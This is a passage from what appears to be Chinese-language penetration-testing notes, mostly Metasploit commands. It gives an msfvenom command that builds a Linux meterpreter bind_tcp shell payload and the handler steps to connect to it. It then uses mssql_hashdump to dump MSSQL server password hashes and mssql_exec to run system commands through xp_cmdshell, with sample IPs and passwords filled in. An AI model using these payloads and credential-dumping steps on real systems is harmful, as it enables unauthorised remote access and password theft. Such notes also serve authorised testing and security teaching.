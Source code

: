 ### bind_tcp
  1. linux
  > 这是一个基于TCP的正向连接shell，因为在内网跨网段时无法连接到attack的机器，所以在内网中经常会使用，不需要设置LHOST。
    ```
    msfvenom -p linux/x86/meterpreter/bind_tcp lport=4444  -f elf -o shell.elf    设置目标自己打开的端口

    MSF:
    use exploit/multi/handler
    set payload linux/x86/meterpreter/bind_tcp #设置的payload要和生成的相同
    set rhost 目标IP
    set lport 目标链接端口
    exploit
    ```




### 数据库

对应不同数据库写不同shell
#### Mssql

**查找/捕获服务器的口令**

这里，用到的是Metasploit的mssql_hashdump模块。
```shell
# 已知目标 mssql密码，获取服务器的密码
use auxiliary/scanner/mssql/mssql_hashdump
show options
set RHOSTS 192.168.91.131
set PASSWORD 123456
run
```
![](img/4.png)


**重新载入xp_cmd功能**
```
use auxiliary/admin/mssql/mssql_exec
show options
set CMD 'whoami'
set RHOST 192.168.109.139
set PASSWORD 123456
run
```